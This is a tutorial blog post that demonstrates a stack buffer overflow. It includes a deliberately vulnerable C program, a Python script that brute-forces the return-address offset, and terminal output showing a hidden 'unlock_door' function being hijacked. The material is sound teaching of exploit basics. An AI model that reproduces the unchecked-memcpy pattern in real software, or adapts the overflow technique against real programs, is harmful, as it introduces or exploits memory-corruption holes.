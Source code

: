 ```yaml
---
title: "Simple buffer overflow exploit"
layout: post
date: 2023-05-11 22:44
headerImage: false
tag:
- exploit
- analysis
star: true
category: blog
author: torbenfeldthusen
description: buffer overflow exploit
---
```


Simple buffer overflow exploit

The key to understanding exploits is the concept of the universal machine – the fact that trying to restrict what a computer can do is literally fighting against the laws of physics. Lots of money can be poured into software which sometimes only takes a couple of days to get compromised, its a Sisyphean task where the goal can only be to make it “hard enough” – as its likely that anything complex enough to be useful is vulnerable in some way.

Having said that, the classic exploit is quite avoidable but regrettably common – the buffer overflow, a specific kind of common bug which makes it possible to write over a program’s stack to take control of it’s behaviour externally. This was about as much as I knew, but I didn’t really understand the practicalities so I thought I’d write an example to play with. There are quite a lot of examples online, but a lot of them are a little confusing so I’d thought I try a simpler approach.

Here is a function called “unlock_door”, we’ll compile this into a C program and try to force it to execute even though it’s not called from the program:
```c
void unlock_door() { 
  printf("DOOR UNLOCKED\n"); 
  exit(1); 
}
```
Now we need a vulnerability, this could be something completely unrelated to “unlock_door” but called in the same program – or it’s library code:

```c
void vulnerable(char *incoming_data, unsigned int len) {
    char fixed_buffer[10];
    // woop! put some variable length data in 
    // a fixed size container with no checking
    memcpy(fixed_buffer,incoming_data,len);
    // print out the return pointer, helpful for debugging the hack!
    printf("return pointer is: %p\n", 
        __builtin_return_address(0));
}
```
The dodgy memcpy call copies incoming_data into fixed_buffer on the stack which is 10 bytes big. If incoming_data is bigger then it will copy outside of the reserved memory and overwrite other data on the stack. One of the other things stored on the stack is the return address value – which tells the program where the function was called from so it can go back when it’s finished. If we can set incoming_data from outside the program, then we can exploit it to redirect program flow and jump into unlock_door instead of returning properly.

We’ll make getting data into the program very simple indeed, and input it via a base16 encoded argument string converted to binary data passed to our vulnerable function in main:

```c
unsigned int base16_decode(const char *hex, char **data) {
  unsigned int str_size = strlen(hex);
  *data = malloc(str_size/2); 
  for (unsigned int i=0; i<str_size; i+=2) {
    if (sscanf(&(hex[i]), "%2hhx", &((*data)[i/2])) != 1) {
      return 0;
    }
  }
  return str_size/2;
}

void main(int argc, char **argv) {
  char *data;
  unsigned int size = base16_decode(argv[1],&data);
  vulnerable(data,size);
  free(data);
  printf("normal exit, door is locked\n");
  exit(0);
}
```
This is our vulnerable C program finished. If we run it with just a few bytes of data it operates normally and prints out the current return pointer, sending it back into the main function it was called from:

```bash
$ ./dodgy_door_prog 0000000000
return pointer is: 0x40088c
normal exit, door is locked
```

We can now inspect it in order to figure out the exploit. The first thing we can do is run the standard bintools “nm” command on the binary which prints out the addresses of all the functions in the executable. We can search this with grep to print the address of the target function we want to call:

```bash
$ nm dodgy_door_prog | grep unlock_door
00000000004007fa T unlock_door
```
The smart thing to do next is to work out where the return pointer would be relative to the fixed_buffer variable and offset this address to provide a payload to send the the program – so I wrote a python program to figure it out for me:

```c
import os
import string

# this is stored in memory in reverse (little endian format)
unlock_door_addr = "fa0740"

def build_payload(length):
    return "00"*length+unlock_door_addr

ret = 0
count = 0
# try increasing offsets and until we get the exit code from unlock_door
# ignore all segfaults and bus errors etc and keep retrying
while ret in [0,35584,34560,34304,33792]:
    payload=build_payload(count)
    cmd="./dodgy_door_prog "+payload
    ret = os.system(cmd);
    print cmd
    count+=1

```
the addresses are stored in memory backwards to what you’d expect as it’s little-endian memory layout (on intel and everything else these days). The script keeps adding zeros in order to offset the target address until it sits in the right bit of stack memory (you can see the return pointer gradually getting corrupted) and eventually triggers the function:


```bash
./dodgy_door_prog 00000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 00000000000000000000000000000000000000000000fa0740
return pointer is: 0x400840
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000000000fa0740
return pointer is: 0x404007
Segmentation fault (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000000000fa0740
return pointer is: 0x4007fa
DOOR UNLOCKED!
```

The successful offset is 24 bytes. Now the good news is that this is only possible on GCC if we compile with “-fno-stack-protector”, as by default for the last year or so it checks functions that allocate arrays on the stack by using a random “canary” value pushed to the stack, if the canary gets altered it stops the program before the function returns. However not all functions are checked this way as it’s slow, so it’s quite easy to circumvent for example if changed from an array to to the address of a local variable instead.

More advanced versions of this exploit also insert executable code into the stack to do things like start a shell process so you can run any commands as the program. There is also an interesting technique called “Return Oriented Programming” where you can analyse an executable to find snippets of code that end in returns (called “gadgets”) and string them together to run your own arbitrary programs. This reminds me of the recent work we’ve been doing on biological viruses, as it’s analogous to how they latch onto sections of bacterial DNA to run their own code.
    

